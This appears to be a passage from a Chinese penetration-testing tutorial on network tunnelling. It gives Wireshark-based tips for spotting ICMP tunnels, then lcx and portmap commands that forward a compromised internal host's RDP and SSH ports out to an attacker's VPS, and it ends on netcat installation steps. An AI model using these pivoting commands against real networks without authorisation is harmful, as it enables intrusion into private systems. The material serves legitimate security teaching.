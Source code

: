 **其他工具**


###### 防御方法

通过Wireshark进行ICMP数据包分析，如下：
- 检查同一来源的ICMP数据包的数量。一个正常的ping命令每秒最多发送两个数据包，而使用ICMP隧道的浏览器会在很短的时间内产生上千个ICMP数据包
- 注意那些Payload大于64bit的ICMP数据包
- 寻找响应数据包的Payload与请求数据包中的Payload不一致的ICMP数据包
- 检查ICMP数据包的协议标签。例如：icmptunnel会在所有的ICMP Payload前面添加"TUNL"标记来标识隧道 -> 这就是特征


## <font color=red> 传输层隧道技术</font>
传输层技术包括：TCP隧道、UDP隧道、常规端口转发等

若内网防火墙阻止了指定端口的访问，在获得目标主机权限后，可以使用iptables打开指定端口

#### 1.lcx端口转发
两个版本：
- Linux 版本：`portmap`
- Widows版本：`lcx.exe`

一个客户端一个服务端

**lcx内网端口转发**
```bash
先传lcx到目标机器
#在内网目标shell上: l
cx -slave 公网ip 4444 127.0.0.1 3389  # 把目标机器的3389流量转发到指定服务器(vps)指定端口
#vps服务器(我的)上执行：
lcx -listen 4444 33891  # 将本地4444端口上监听的所有数据转发到本机33891端口

#然后远程桌面连接本地的33891端口即可
```

**lcx本地端口映射**
```bash
# 如果目标防火墙 限制了部分端口的数据(如3389)，可以进行端口转发：把3389端口的数据转发到防火墙允许的其他端口(如:53)
# 在目标主机执行
lcx -tran 53 <目标ip>: 3389
```

**linux版的portmap**
```bash
# 下载地址：http://www.vuln.cn/wp-content/uploads/2016/06/lcx_vuln.cn_.zip

# vps
./portmap -m 2 -p1 6666 -h2 公网ip -p2 7777
# 目标内网机器
./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 公网ip -p2 6666

```


#### 2.netcat
安装
```bash
## Linux
# http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download
#1. 
apt-get install netcat
  
# 2. 
wget ...
tar -zxvf ...
cd ...
./configure
make

```